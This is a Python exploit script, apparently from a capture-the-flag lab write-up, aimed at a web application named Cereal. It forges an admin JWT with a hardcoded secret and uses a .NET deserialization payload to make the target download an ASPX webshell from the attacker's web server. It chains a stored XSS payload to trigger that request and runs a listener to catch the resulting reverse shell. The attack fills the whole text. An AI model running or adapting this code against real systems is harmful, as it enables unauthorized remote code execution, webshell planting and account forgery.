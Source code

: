 ```py
r = requests.session()
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Create the JWT Token
def createJWT():
    print("[+] Let's create the JWT Token [+]")
    global token
    token = jwt.encode({'name': "admin", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256")
    print("[+] Token Created [+]")
    return token
    
def sendXSS(rhost,token,lhost):
    print("[+] Let's send the XSS [+]")
    os.system("cp /usr/share/webshells/aspx/cmdasp.aspx shell.aspx")
    url = "https://%s:443/requests" %rhost
    headers = {"Authorization": "Bearer %s" %token, "Content-Type": "application/json"}
    json={"JSON": "{\"$type\":\"Cereal.DownloadHelper, Cereal\",\"URL\":\"http://%s/shell.aspx\",\"FilePath\": \"C:\\\\inetpub\\\\source\\\\uploads\\\\shell.aspx\"}" %lhost, "RequestId": 666}
    r.post(url, headers=headers, json=json, proxies=proxies, verify=False)
    print("[+] XSS Sent ! [+]")

def triggerXSS(rhost,token):
    print("[+] Trigger the XSS [+]")
    url = "https://%s:443/requests" %rhost
    headers = {"Authorization": "Bearer %s" %token, "Content-Type": "application/json"}
    json={"json": "{\"title\":\"[XSS](javascript: document.write%28%22<script>var xhr = new XMLHttpRequest;xhr.open%28'GET', 'https://" + rhost + "/requests/666', true%29;xhr.setRequestHeader%28'Authorization','Bearer " + token + "'%29;xhr.send%28null%29</script>%22%29)\",\"flavor\":\"pizza\",\"color\":\"#FFF\",\"description\":\"0x4rt3mis\"}"}
    r.post(url, headers=headers, json=json, proxies=proxies, verify=False)
    print("[+] Triggered, wait one minute to be done ! [+]")
```